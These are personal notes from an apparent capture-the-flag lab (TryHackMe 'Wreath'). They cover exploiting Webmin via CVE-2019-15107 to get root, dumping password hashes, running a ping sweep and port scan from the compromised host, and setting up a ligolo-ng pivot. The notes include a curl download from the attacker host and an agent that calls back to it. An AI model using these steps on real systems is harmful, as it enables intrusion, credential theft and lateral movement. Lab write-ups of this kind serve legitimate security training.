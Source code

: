 
KISS = Keep It Simple Stupid

LOTL = Living Off The Land


We know that .200 is Linux from (wappalyzer aka Centos) or whatweb etc......
See i am just mixing my OSINT website skills with enumeration to confirm that it's CentOS
![[Pasted image 20240806021754.png]]


```
ttps://thomaswreath.thm [200 OK] Apache[2.4.37], Bootstrap, Country[RESERVED][ZZ], Email[#,me@thomaswreath.thm], HTML5, HTTPServer[CentOS][Apache/2.4.37 (centos) OpenSSL/1.1.1c], IP[10.200.87.200], JQuery[2.1.4], OpenSSL[1.1.1c], Script, Title[Thomas Wreath | Developer], X-UA-Compatible[IE=edge]
```

Where i got stuck was when i open the service running on port 1000 (i.e. snet-sensor-mgmt)
Got Webmin so i was searching CVE and RCE for it and not snet-sensor-mgmt.

So both are same in the end we some to troubleshoot according the info we get
![[Pasted image 20240806022048.png]]


https://github.com/MuirlandOracle/CVE-2019-15107?tab=readme-ov-file
got the cve implementation in python it was also available with Metasploit version as well.

Let's see the privilege and depending on that we will see what we can do
BINGOOOOOOOOOOOOOOOOOO root user
```
id
```

Keys / password is  the things that come to my mind.

```
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::

twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```

```
cat ~/.ssh/id_rsa.pub
```


We got the access to the production sever through the ssh
![[Pasted image 20240806030713.png]]

What i would do is to run LPE usually when i get a low level user but it's already at root
So next thing that should come to my mind is there any other assets that we can access through .200 ??

for that we need nmap which is not possible on the asset so will simply transfer a precompiled binary of nmap to it.


```
./nmap-sar -sn 10.200.87.1-255
```

 `-sn` switch is used to tell Nmap not to scan any port and instead just determine which hosts are alive.

We got    .1     .100      .150       .200     .250  so from these we can minus   .1     .250     .200

So we have connection to .100 and .150 but i have scanned both and only .150 returned with open ports.


```
./nmap_sar -sS -p 1-15000 10.200.87.150
```
![[Pasted image 20240806201736.png]]

## Pivoting
So i decided to go this tool and will master it through practice. (i.e. upload the agent on the target device)
Download agent and proxy
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.3
```
tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
```

```
curl 10.50.88.33/agent -o agent
```

![[Pasted image 20240807132007.png]]


Set the Interface in Kali 
```
sudo ip tuntap add user root mode tun ligolo
```

```
sudo ip link set ligolo up
```

```
sudo ip route add 10.200.87.0/24 dev ligolo
```

![[Pasted image 20240807133010.png]]


Attacker
```
./proxy -selfcert 
```
![[Pasted image 20240807134145.png]]


Compromised Asset
```
./agent -connect 10.50.88.33:11601 -ignore-cert
```

